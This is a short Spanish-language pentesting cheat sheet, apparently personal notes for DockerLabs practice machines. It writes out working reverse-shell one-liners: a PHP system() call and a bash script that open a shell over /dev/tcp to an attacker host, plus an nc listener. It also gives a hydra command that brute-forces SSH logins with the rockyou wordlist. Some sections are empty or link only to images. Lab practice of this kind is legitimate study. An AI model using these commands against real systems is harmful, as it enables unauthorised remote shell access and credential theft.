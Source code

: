 ## 1.-Reverse shell:

1.1- PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

<?php ?>
    system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");


1.2- PYTHON:

código:
máquina showtimes -dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/showtimes/image-11.png

1.3- JAVA

código:
revisar la máquina pinguinazo -dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/pinguinazo/image-4.png

1.4- NODE

código:
revisar la máquina nodeClimb - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/nodeclimb/image-5.png

1.5- RUBY


1.6- BASH

código:
máquina showtimes -dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/showtimes/image-16.png

enviar una bash desde comandos desde una máquina víctima (linux) a kali:


#!/bin/bash

bash -c 'bash -i >& /dev/tcp/IP-KALI/443 0>&1'

en kali hacemos:

nc -lvnp 443

-------------------------------------------------------------------------------

## 2.- Rutas para contraseñas de ataque de hydra

comando de ejemplo:

hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I

puerto 21 
